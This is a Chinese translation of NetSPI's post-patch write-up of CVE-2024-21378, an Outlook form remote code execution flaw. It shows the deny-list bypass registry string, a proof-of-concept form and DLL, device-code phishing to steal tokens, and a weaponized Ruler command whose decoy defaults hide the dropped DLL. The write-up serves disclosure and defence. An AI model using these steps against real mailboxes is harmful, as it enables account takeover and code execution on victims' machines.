# 【翻译】CVE-2024-21378作者教你Outlook远程代码执行，等你来写 exp - 先知社区

翻译：[https://www.netspi.com/blog/technical/red-team-operations/microsoft-outlook-remote-code-execution-cve-2024-21378/](https://www.netspi.com/blog/technical/red-team-operations/microsoft-outlook-remote-code-execution-cve-2024-21378/)  
2023年，NetSPI发现Microsoft Outlook在通过同步表单对象进行身份验证时存在远程代码执行（RCE）漏洞。本文将介绍我们是如何发现 [CVE-2024-21378](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-21378) 并通过修改由SensePost发布的Outlook渗透测试工具 [Ruler](https://github.com/sensepost/ruler) 来武器化。请注意，poc代码需要一段时间才能发布，以便组织有足够的时间进行修补。

### 漏洞概述

2017 年，知名研究机构Orange CyberDefense的SensePost团队的研究员Etienne Stalmans 记录了此攻击的原始样本，并利用 Outlook 表单对象中的 VBScript 代码来获取具有邮箱访问权限的代码执行。微软作为回应，发布了一个补丁，以强制将自定义表单中的脚本代码列入允许列表。但是，这些表单对象的同步功能没有变化过。  
在底层，表单通过使用IPM.Microsoft.FolderDesign.FormsDescription对象进行MAPI同步。这些对象携带特殊的属性和附件，这些属性和附件用于在客户端首次使用表单时“安装”该表单。以下是此过程的概述：

1.  Outlook 请求实例化特定消息类(*IPM.Note.Evil*).
2.  有关 IPM，请参阅相关文件夹的 MAPI 关联内容表。Microsoft.FolderDesign.FormsDescription 对象
3.  如果存储在 [*PidTagOfflineAddressBookName*](https://learn.microsoft.com/en-us/openspecs/exchange_server_protocols/ms-oxoab/b4750386-66ec-4e69-abb6-208dd131c7de) 属性匹配，则表单安装过程开始。
4.  PidTagOfflineAddressBookDistinguishedName 用作新表单安装的 CLSID（所有表单都是 COM 对象）
5.  表单描述的第一个附件和一个特殊属性:0x6902001F，决定了需要在CLSID下添加哪些注册表键以安装表单。
    -   在较旧的样式表单（“绕过 Outlook 的表单”）中，这些注册表值通常包括 InProcServer 项或与提取到磁盘的 DLL 绑定的等效项。
    -   在较新的表单中，位于Outlook 的 MsgClass 键用于将表单绑定到提取到磁盘的 OLE 对象。
    -   在这些键中，%d 可用于引用剩余表单附件的提取目录 (%localappdata%\\Microsoft\\FORMS)。
6.  确认注册表更改后，Outlook 继续将表单作为 COM 对象加载。

这个过程存在一些严重的问题：

-   将附件提取到%localappdata%\\Microsoft\\FORMS 时，可以通过PidTagAttachFilename 属性执行路径遍历。您还可以将多个文件写入磁盘。这本质上是安装表单时允许将任意数据写入磁盘
-   在为表单创建注册表键时，0x6902001F属性数据由于预期 key=value 行而被换行打断。每一行都被处理，其中键是CLSID根下的一个子键，值是该键的默认值。为了防止“绕过Outlook的表单”，会将典型的COM服务器键（InProcServer、LocalServer等）的拒绝列表与每行的开头进行比较（OLMAPI32.DLL）。然而，在安装值时，你可以使用一个前导的\\字符来暗示一个完整的子键路径在HKCR下。例如，\\CLSID\\<clsid>\\InprocServer32=%d\\evil.dll将绕过拒绝列表检查，并导致表单完整 COM 对象注册 </clsid>

我们发现我们能够在磁盘上创建任意文件，以及在 HKEY\_CLASSES\_ROOT (HKCR) 下安装任意注册表项（具有默认值）。这些原始类型操作足以实现简单的远程代码执行 (RCE)。

### 深入代码审计

#### 搭建环境

简单来讲，我们认为这是一系列基于利用被泄露的凭据通过 Exchange 同步对象来发动攻击的第四次迭代。2015 年底，知名安全研究团队Dreadnode 的联合创始人 Nick Landers 在[blog](https://www.netspi.com/blog/technical/adversary-simulation/malicious-outlook-rules/)上发布了一篇关于滥用 Outlook 规则实现远程代码执行 (RCE) 的文章。在接下来的几年里，Etienne (SensePost) 和 Nick 共同发现了另外两条攻击路径，这些路径最终都被微软修复，其中包括滥用 Outlook 表单。SensePost 发布了一系列优秀的博客文章（见参考文献），深入研究了漏洞、底层技术以及利用工具 Ruler。  
我们打算重回这项研究，因为我们认为 Outlook 拥有一个巨大的、尚未被充分探索的攻击面，并且我们在过去几年中多次成功进行设备代码 phishing/vishing攻击，这给了我们信心。  
我们开始通过 Outlook 客户端以及 MFCMAPI 和 ProcMon 手动探索 Outlook 表单。我们将将对底层技术进行概述，但基本上，Outlook 中可用的各种项目（邮件、日程表邀请、任务等）都通过“检查器窗口”中的表单结构进行显示。Outlook 既包含标准表单，也允许自定义表单，这些表单可以通过 Exchange（包括 Exchange Online）进行发布和同步。

在我们的研究中，我们发现了表单配置文件的格式，这些文件可以用来安装自定义表单。我们特别关注的是[文件和注册表条目](https://learn.microsoft.com/en-us/office/client-developer/outlook/mapi/form-configuration-file-platforms-section)。

> *File 条目列出表单库维护的表单服务器应用程序可执行文件，并在启动表单时将其加载到磁盘缓存中的新子目录中..。*  
> *每当使用File条目时，都会使用Registry条目，它标识存储表单服务器应用程序的可执行文件的表单库的注册表项…*

我们首先尝试证明本地代码执行。下面是一个示例表单配置，我们可以将其直接导入 Outlook 来安装表单。我们将文件条目设置为我们想要通过表单安装的 DLL 的位置，并将该文件保存到 c:\\poc\\hello.cfg。

```plain
[Description] 
MessageClass=IPM.Note.Hello 
CLSID={00000000-1234-1234-1234-000000000000} 
DisplayName=Hello 
Category=Standard 
Subcategory=Form 
Comment=Hello 
SmallIcon=C:\Windows\SysWOW64\OneDrive.ico 
LargeIcon=C:\Windows\SysWOW64\OneDrive.ico 

[Platforms] 
Platform1=Win16 

[Platform.Win16] 
CPU=ix86 
OSVersion=Win3.1 
File = C:\poc\hello.dll 
Registry = InprocServer32 = %d\hello.dll
```

为了测试目的，我们编译了一个带有在 DllMain 中执行execution primitive的 DLL，并再次将其放置在与我们上面的 hello.cfg 文件相同的文件夹中。

```plain
#include <Windows.h>
BOOL APIENTRY DllMain(HMODULE module, DWORD reason, LPVOID reserved) { 
     if (reason == DLL_PROCESS_ATTACH) { 
     MessageBoxA(0, "Hello", "Ruh Roh", 0); 
     }
     return TRUE;
}
```

配置文件然后可用于通过导航到“文件”->“选项”->“高级”->“自定义表单”并选择hello.cfg文件在Outlook中安装一个表单。  
注意: 在通过配置文件安装自定义表单时，我们将位置设置为 Inbox。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240321085431-93d395fe-e71d-1.png)  
导航到表单管理器  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240321085452-a0946b92-e71d-1.png)  
在收件箱文件夹中安装自定义表单配置文件  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240321085508-a9e73be8-e71d-1.png)  
验证表单已安装  
然后，我们继续选择“开发人员”选项卡 ->“选择表单”并打开我们新创建的表单  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240321085523-b2bc604a-e71d-1.png)  
尝试打开我们新安装的表单  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240321085543-be805490-e71d-1.png)  
糟糕，并不理想，但我们记得在安装表单配置文件时看到了潜在的相关配置。我们进行更改并重试。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240321085557-c6c741f4-e71d-1.png)  
从我们之前的选择相关的自定义表单选项  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240321085613-d08f45ce-e71d-1.png)  
ok！我们确认了任意 DLL 的执行，但我们仍然有一些工作要做。在后端，安装表单后，配置文件将转换为 IPM.Microsoft.FolderDesign.FormsDescription 消息类对象，并存储在 Outlook 的收件箱目录中。从开发人员选项卡中选择自定义表单后，对关联的注册表项进行检查后发现，我们的 DLL 存储在 %localappdata%\\Microsoft\\FORMS\\IPM.Note.Hello 中，不仅确认了执行，而且确认了看似任意的注册表写入和文件写入磁盘。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240321085627-d8bd97c8-e71d-1.png)

#### 开搞

为了更好地了解幕后发生的事情，我们开始使用 MFCMAPI 探索 Outlook 的内容。 Outlook 包含您的电子邮件，但它也是一个数据库，我们可以将 MFCMAPI 本质上视为一个数据库探索工具，它使您能够访问 Outlook 客户端中不可见的属性和对象。在 MFCMAPI 中，我们右键单击收件箱（因为这是我们保存自定义表单的位置）并导航到“打开关联内容表”按钮，在其中我们找到了新表单及其各种属性。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240321085641-e17bb548-e71d-1.png)  
查看收件箱文件夹的隐藏内容表  
当我们探索如何在代码中重新创建IPM.Microsoft.FolderDesign.FormsDescription对象，我们开始问自己，“可以安装的表单和‘绕过Outlook’的表单之间有什么区别？是什么决定的？”

看起来最直接相关的属性是“PidTagOfflineAddressBookDistinguishedName”或“PR\_OAB\_DN”。该属性标记包含我们在配置文件中分配的 COM GUID，它最终定义了表单最终注册为的 COM CLSID。这很有趣，因为我们似乎可以在 HKCR 下创建任何注册表项并设置它的（默认）值。此外，如果 CLSID 是任意的，那么是什么阻止我们放入现有对象的 CLSID 并执行经典的 COM 劫持？ SensePost 再次概述了这些属性标签及其重要性，因此我们不会在此重复说明。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240321085700-eccb776c-e71d-1.png)  
IPM.Note.Hello 表单的属性标记及其值

我们随后在表单上右键单击，选择“附件 -> 显示附件表”，发现表单包含多个附件，包括通过表单消息对象注册的 DLL。在第一个附件中，我们还在一对属性标签中找到了我们的注册表键信息。我们注意到 PR\_ATTACH\_DATA\_BIN 属性似乎不重要，因为我们可以清空内容并将表单同步回 Outlook，而不产生任何效果。我们发现 0x6902001F 属性的值确定了需要在 CLSID 下添加哪些注册表键来安装表单 - 另一个看似关键的组件。在第一个附件中，我们还在一对属性标签中找到了我们的注册表键信息。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240321085713-f46926b8-e71d-1.png)  
MFCMAPI 中的表单附件表

然后，我们使用 Ruler 向自己发送一个用于执行 VBScript 的表单，并开始将其与我们的 COM DLL 执行表单进行比较。查看结果，我们确认 0x6902001F 属性标记中传递的值用于设置注册表项。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240321085731-ff482d2c-e71d-1.png)  
测试 0x6092001F 属性标记中的各种输入  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240321085745-0729ef76-e71e-1.png)  
查看注册表中的结果

我们还发现，将 InProcServer32 添加到 VBScript 表单键并通过 MFCMAPI 将表单同步回 Outlook 会导致失败，因为我们会收到“无法安装绕过 Outlook 的表单”错误。我们可以清楚地看到这是一个拒绝列表，因为我们设置的任何其他密钥都会被创建。

这给我们带来了新的疑问，第一个问题是这个拒绝名单是在哪里实施的？我们能否通过不在拒绝列表中但仍允许我们执行代码或执行 COM 劫持的替代注册表项来规避此拒绝列表？他们限制 GUID 吗？如果我们提供一个已经存在的 CLSID 的 GUID，它会起作用、附加到注册表还是会失败？但话又说回来，这似乎是任意的，无论我们在表单中输入什么键，都会简单地创建，这对我们来说似乎是一个糟糕的策略。

我们决定开始寻找拒绝名单出现的位置。这有点棘手，因为 Outlook 很难反编译，但我们也许可以在 ProcMon 的帮助下实现这一目标。我们打开 ProcMon 并再次执行该表单，专门过滤我们的 COM GUID。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240321085801-11112a4a-e71e-1.png)  
在 Process Monitor 中查看堆栈

正如您在上面看到的，RegOpenKeyExA 之前堆栈中的最后一个调用来自 OLMAPI32.DLL 中的函数调用。我们开始反编译 OLMAPI32.DLL，并遍历函数及其引用，ScOpenRegKey -> RegisterFormClass -> HrDownloadFormFiles，直到我们最终看到一个熟悉的属性标签，0x6902001F！好吧，我们找到 0x6902001E，这是原始属性标记的 ASCII 版本。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240321085815-1953e846-e71e-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240321085828-210c6f68-e71e-1.png)  
跳转到我们在 ProcMon 中识别的地址  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240321085841-290de80e-e71e-1.png)  
查看对 ScOpenRegKey 的引用并发现 RegisterFormClass  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240321085855-30ea328a-e71e-1.png)  
选择对 RegisterFormClass 的引用  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240321090110-81e4a1fc-e71e-1.png)  
在 RegisterFormClass 函数中发现我们感兴趣的属性标签

再次查看 RegisterFormClass，我们发现我们的检查函数 (sub\_1803DF094) 和拒绝列表变量 (v8 = (LPCSTR \*)off\_1806DAB0)。

注意：为了清楚起见，下面的一些变量和函数名称已被修改。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240321090131-8de3de64-e71e-1.png)  
检查函数和拒绝名单变量（名称已修改）  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240321090148-985d6afe-e71e-1.png)  
回顾拒绝列表检查和安装之间的差异，我们发现了一个使用相对路径的简单绕过方法，即在每个新行前面加上“\\”。例如，“InprocServer32=%d\\evil.dll”被阻止，而“\\CLSID{00000000-1234-1234-1234-FEED00000000}\\InprocServer32=%d\\evil.dll”未被阻止。

```plain
\_\_int64 ApplyRegistryKeysFromString(HKEY regKey, LPCSTR path, LPCSTR lpSubKey, char \*value) {
    HKEY hKey = 0;
    int pathLen = strlen(path);
    char \*block = strdup(value);
    if (!block) return 2147942414;

    char \*lineStart = block;
    while (lineStart && \*lineStart) {
        const char \*lineEnd = strchr(lineStart, 10);
        if (lineEnd) {
            \*lineEnd = 0;
            lineEnd++;
        }

        char \*equalSign = strchr(lineStart, 61);
        const char \*keyValue = equalSign ? equalSign + 1 : “SzNull”;

        if (equalSign) \*equalSign = 0;

        if (\*lineStart == ‘\\\\’) {
            if (ScOpenRegKey(&hKey, HKEY\_CLASSES\_ROOT, lineStart + 1, 2, 1) == 0) {
                if (RegSetValueA(hKey, 0, 1, keyValue, strlen(keyValue)) != 0) {
                    return -2147221167;
                }
            }
        } else {
            if (ScSetRegValue(&hKey, regKey, lineStart, keyValue, strlen(keyValue)) != 0) {
                return -2147221167;
            }
        }

        lineStart = (char \*)lineEnd;
    }

    free(block);
    return 0;
}
```

我们的研究表明，作为经过身份验证的用户，我们可以：

-   在HKCR下创建任意注册表项并设置该项的（默认）值
-   将任意数量的文件放置在磁盘上的任意位置
-   创建一个表单，执行时将导致 Outlook 通过 CLSID 加载已注册的 COM 对象。

### 武器化

正如本文开头所提到的，我们研究的主要驱动力是我们在红队参与期间成功地解决了设备代码身份验证令牌滥用问题。在识别出可利用远程代码执行的漏洞后，我们继续分叉并修改 Ruler，以支持通过受损的访问令牌对 Exchange Online 进行身份验证。我们考虑了各种执行技术，但为了概念验证的目的，我们通过添加代码来同步包含执行任意 COM 兼容本机 DLL 所需属性的表单来保持简单。包含 PoC 代码的公共分叉以及稍后对原始存储库的拉取请求将在[此处](https://github.com/NetSPI/ruler?tab=readme-ov-file)找到。

我们立即发现了一些最初的 OpSec 问题：

触发表单需要用户交互才能执行（尽管进一步挖掘可能会揭示自动执行）。

-   DLL将被提取到众所周知的FORMS目录，可以监控历史攻击。
-   注册表中的CLSID 更改由Outlook 进程执行。
-   DLL 将被加载到Outlook 进程中。

下面我们提供了一般利用流程的高级概述：

1.  获取目标用户的凭证材料。
2.  创建一个我们想要执行的COM兼容的DLL。
3.  向 Ruler 指定我们的凭证材料、DLL 和其他必需/可选参数。
4.  Ruler 将向 Exchange Server/Exchange Online 进行身份验证，并将表单作为电子邮件发送。
5.  然后，用户需要通过 Windows 设备上的 Microsoft Outlook 胖客户端单击、转发或打印电子邮件来触发表单。
6.  执行该表单将创建注册表项、将 DLL 放入磁盘并将 DLL 加载到 Outlook 进程中。

#### 实战

在本节中，我们将介绍对该问题的实际利用。首先，我们使用我们选择的武器，在本例中为 [TokenTactics](https://github.com/rvrsh3ll/TokenTactics)，通过设备代码phishing/vishing获得刷新令牌。

```plain
PS C:\\TokenTactics> Import-Module .\\TokenTactics.psd1
PS C:\\TokenTactics> Get-AzureToken -Client Outlook
user\_code        : L78NMWTT3
device\_code      : \[REDACTED\]              
verification\_url : https://microsoft.com/devicelogin
expires\_in       : 900
interval         : 5
message          : To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code L78NMWTT3 to authenticate.

authorization\_pending
token\_type     : Bearer
scope          : AuditLog.Read.All 
\[TRUNCATED\]
expires\_in     : 8492
ext\_expires\_in : 8492
expires\_on     : 1697842572
not\_before     : 1697833779
resource       : https://graph.microsoft.com/
access\_token   : eyJ0\[REDACTED\]

PS C:\\TokenTactics> $response.access\_token | clip
```

编译完COM DLL后，我们使用Ruler的fork发送表单。以下是Ruler命令的示例，请注意所提供参数的顺序很重要。Ruler将使用我们的Outlook访问令牌向Exchange Online进行身份验证，并将包含DLL文件的表单作为电子邮件发送。

```plain
$ go run .\\ruler.go --token "\[REDACTED\]" --email user@example.com --o365 --debug form add-com --dll evil.dll --suffix Evil -s
\[+\] Found cached Autodiscover record. Using this (use --nocache to force new lookup)
\[+\] Create Form Pointer Attachment with data:  \\CLSID\\{00000000-1234-1234-1234-FEED00000000}\\InprocServer32=%d\\Microsoft.Teams.Shim.dll
Starting Upload
Writing final piece 0 of 0
\[+\] Create Form Template Attachment
Starting Upload
Writing 0 of 43
\[TRUNCATED\]
Writing final piece 43 of 43
\[+\] Form created successfully:  IPM.Note.Evil
\[+\] Sending email.
\[+\] Email sent!
```

在上面的例子中，我们再次创建了一个新表单，并向被入侵的电子邮件账户发送了触发邮件（来自自身）。虽然表单已安装，但除非触发邮件被点击（在预览窗格中查看），转发或从 Outlook 客户端内部打印，否则不会执行。

让我们来看一下对于我们在表单add-com中新功能的一些可能的参数。

```plain
$ go run ruler.go form add-com -h                                                                                                                                                         
NAME:
   ruler form add-com - creates a new COM based form.

USAGE:
   ruler form add-com \[command options\] \[arguments...\]

OPTIONS:
   --suffix value           A 3 character suffix for the form. Defaults to pew (default: "pew")
   --dll value, -d value    A path to a the COM DLL file to execute
   --clsid value, -c value  CLSID to use for the remote registration (default: "random")
   --name value, -n value   The DLL name on the remote system (default: "Microsoft.Teams.Shim.dll")
   --hidden                 Attempt to hide the form.
   --send, -s               Trigger the form once it's been created
   --body value, -b value   The email body you may wish to use (default: "This message cannot be displayed in the previewer.\\n\\n\\n\\n\\n")
   --subject value          The subject you wish to use, this should contain your trigger word (default: "Exchange Quarantine Report")
```

显然还有一些操作安全的考虑留给读者。

### 结论

微软已发布[CVE-2024-21378](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-21378)的补丁（请查看MSRC更新指南以获取您的Outlook和/或Office版本），我们希望稍微延迟发布此帖子可以让组织提前修复问题。我们也希望这引起关注，因为我们认为这是一个尚未完全探索的攻击面（以及一些保护措施有多么脆弱）。发现漏洞并绕过它并不是非常复杂的事情 - 我们采取了正常的黑客方式，试图将我们对基础技术和协议的理解推得更深，更不用说在先前的研究之上肯定会有所帮助。  
对于防御团队，微软之前发布了关于检测和补救Outlook规则和表单滥用的指导意见, [https://learn.microsoft.com/en-us/microsoft-365/security/office-365-security/detect-and-remediate-outlook-rules-forms-attack?view=o365-worldwide](https://learn.microsoft.com/en-us/microsoft-365/security/office-365-security/detect-and-remediate-outlook-rules-forms-attack?view=o365-worldwide).

#### 时间线:

-   2023 年 9 月 29 日 漏洞已提交给 Microsoft。
-   2023 年 10 月 2 日 微软opens case
-   2023 年 10 月 25 日 Microsoft 确认了所报告的行为，并表示他们将继续调查并确定如何解决此问题。
-   2024 年 2 月 4 日 Microsoft 确认将在下一个修补周期中发布修复程序。
-   2024 年 2 月 13 日 CVE-2024-21378 的修复程序已发布，close case。
-   2024 年 2 月 28 日 向 Microsoft 报告了 CVE FAQ 和 CVSS 中的错误。
-   2024 年 3 月 4 日 Microsoft 承认他们已收到详细信息并开始与内部相关者进行协调。
-   2024 年 3 月 5 日 Microsoft 更新了 CVE 以解决常见问题解答和 CVSS 错误。

#### References:

-   [https://github.com/sensepost/ruler](https://github.com/sensepost/ruler)
-   [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-21378](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-21378)
-   [https://sensepost.com/blog/2016/mapi-over-http-and-mailrule-pwnage/](https://sensepost.com/blog/2016/mapi-over-http-and-mailrule-pwnage/)
-   [https://sensepost.com/blog/2017/pass-the-hash-with-ruler/](https://sensepost.com/blog/2017/pass-the-hash-with-ruler/)
-   [https://sensepost.com/blog/2017/outlook-forms-and-shells/](https://sensepost.com/blog/2017/outlook-forms-and-shells/)
-   [https://sensepost.com/blog/2017/outlook-home-page-another-ruler-vector/](https://sensepost.com/blog/2017/outlook-home-page-another-ruler-vector/)
-   [https://learn.microsoft.com/en-us/office/vba/outlook/concepts/forms/how-outlook-forms-and-items-work-together](https://learn.microsoft.com/en-us/office/vba/outlook/concepts/forms/how-outlook-forms-and-items-work-together)
-   [https://github.com/rvrsh3ll/TokenTactics](https://github.com/rvrsh3ll/TokenTactics)